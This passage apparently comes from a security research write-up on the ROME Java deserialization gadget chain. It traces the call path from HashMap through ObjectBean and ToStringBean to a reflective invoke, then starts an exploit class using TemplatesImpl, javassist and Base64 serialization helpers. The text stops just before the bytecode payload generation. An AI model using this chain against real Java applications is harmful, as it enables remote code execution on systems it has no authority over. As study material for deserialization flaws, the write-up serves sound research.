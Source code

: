 <div align=center><img src="./images/3.png"></div>

# EXP
From the pre-knowledge analyzed above, it is not difficult to see that the calling process of the `Rome` chain is called. First, use the deserialization of `HashMap` to trigger the `ObjectBean#hashCode` method, and then the `Object#toString` method encapsulated in `ObjectBean` will be further called, and the `ToStringBean#toString` method is called, and the `pReadMethod#invoke` method is triggered in the second `toString` method, thereby achieving the malicious deserialization operation. According to the above analysis, the corresponding `Exploit` is constructed as follows:

```java
package org.h3rmesk1t.Rome;

import com.sun.org.apache.xalan.inte
rnal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.*;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Observable;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/6 1:49 am
 */
public class Exploit {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {

        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    public static void exp() throws Exception {

        // Generate malicious bytecodes
```